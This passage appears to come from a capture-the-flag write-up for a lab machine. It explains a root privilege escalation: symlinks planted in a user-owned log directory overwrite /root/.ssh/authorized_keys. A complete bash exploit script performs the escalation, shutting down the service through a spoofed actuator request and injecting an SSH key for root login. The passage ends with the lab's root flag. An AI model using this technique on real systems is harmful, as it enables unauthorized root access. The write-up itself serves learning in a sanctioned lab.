           ├─843 /bin/bash /root/start_tomcat.sh
           ├─902 sudo su nobody -s /bin/bash -c /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java -Djava.security.egd=file:///dev/urandom -jar /opt/spring/sourc
           └─904 tee /home/johnsmith/tomcatlogs/1765797996.log

Warning: Journal has been rotated since unit was started. Log output is incomplete or unavailable.
```

as we can see, it is doing `tee` to `/home/johnsmith/tomcatlogs/1765797996.log`, probably writing the output from the spring service or something.

This is very interesting, since we owns the folder `/home/johnsmith/tomcatlogs/`



In addition, the name of the log file looks like epoch time:
```bash
date +%s
```



It means we can create multiple links to the file we want to write, the links will be the epoch, and then we'll get the arbitrary file write as root.

This will be our final script:
```bash
#!/bin/bash

# create private and public key pair
ssh-keygen -t rsa -b 2048 -f ./key -q -N ""

pubkey=$(cat ./key.pub)
echo "[+] Public key generated."

# Shutdown the server
curl -X POST https://localhost/actuator/shutdown -H 'x-9ad42dea0356cb04: 172.16.0.5' -k

echo "[+] Server shutdown initiated."

# create files and symbolic link
dir='/home/johnsmith/tomcatlogs'
file_to_overwrite='/root/.ssh/authorized_keys'

time=$(date '+%s')
for ((t = time; t <= time + 30; t++)); do
    ln -s "$file_to_overwrite" "$dir/$t.log" 
done

echo "[+] Files created and symbolic link updated."

# Wait for server to restart
echo "[+] Waiting for server to restart..."
sleep 30 


# Send payload to put inside the overwritten file
pubkey=$(cat ./key.pub)
curl --data-urlencode "name=$pubkey" https://localhost/ -k
# curl --data-urlencode "name=$pubkey" https://localhost/ -k

echo "[+] Public key sent to server."

# ssh into the server using the private key
ssh -i ./key -o StrictHostKeyChecking=no root@localhost 
```

Now, let's get the root shell :)



and grab the root flag:
```bash
root@spring:~# cat /root/root.txt 
THM{sshd_does_not_mind_the_junk}
```